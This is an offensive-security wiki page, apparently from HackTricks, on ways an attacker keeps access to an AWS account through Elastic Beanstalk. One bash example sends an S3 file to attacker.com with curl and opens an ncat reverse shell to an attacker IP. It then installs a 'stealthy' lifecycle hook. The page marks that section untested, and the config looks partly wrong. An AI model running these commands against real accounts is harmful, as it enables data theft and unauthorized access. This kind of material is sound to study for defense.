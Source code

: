 # AWS - Elastic Beanstalk Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Elastic Beanstalk

For more information check:

{{#ref}}
../aws-services/aws-elastic-beanstalk-enum.md
{{#endref}}

### Persistence in Instance

In order to maintain persistence inside the AWS account, some **persistence mechanism could be introduced inside the instance** (cron job, ssh key...) so the attacker will be able to access it and steal IAM role **credentials from the metadata service**.

### Backdoor in Version

An attacker could backdoor the code inside the S3 repo so it always execute its backdoor and the expected code.

### New backdoored version

Instead of changing the code on the actual version, the attacker could deploy a new backdoored version of the application.

### Abusing Custom Resource Lifecycle Hooks

> [!NOTE]
> TODO: Test

Elastic Beanstalk provides lifecycle hooks that allow you to run custom scripts during instance provisioning and termination. An attacker could **configure a lifecycle hook to periodically execute a script that exfiltrates data or maintains access to the AWS account**.

```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
  AWSEBAutoScalingGroup:
    Metadata:
      AWS::ElasticBeanstalk::Ext:
        TriggerConfiguration:
          triggers:
            - name: stealthy-lifecycle-hook
              events:
                - "autoscaling:EC2_INSTANCE_LAUNCH"
                - "autoscaling:EC2_INSTANCE_TERMINATE"
              target:
                ref: "AWS::ElasticBeanstalk::Environment"
              arn:
                Fn::GetAtt:
                  - "AWS::ElasticBeanstalk::Environment"
                  - "Arn"
  stealthyLifecycleHook:
    Type: AWS::AutoScaling::LifecycleHook
    Properties:
      AutoScalingGroupName:
        Ref: AWSEBAutoScalingGroup
      LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
      NotificationTargetARN:
        Ref: stealthy-lifecycle-hook
      RoleARN:
        Fn::GetAtt:
          - AWSEBAutoScalingGroup
          - Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```

{{#include ../../../banners/hacktricks-training.md}}






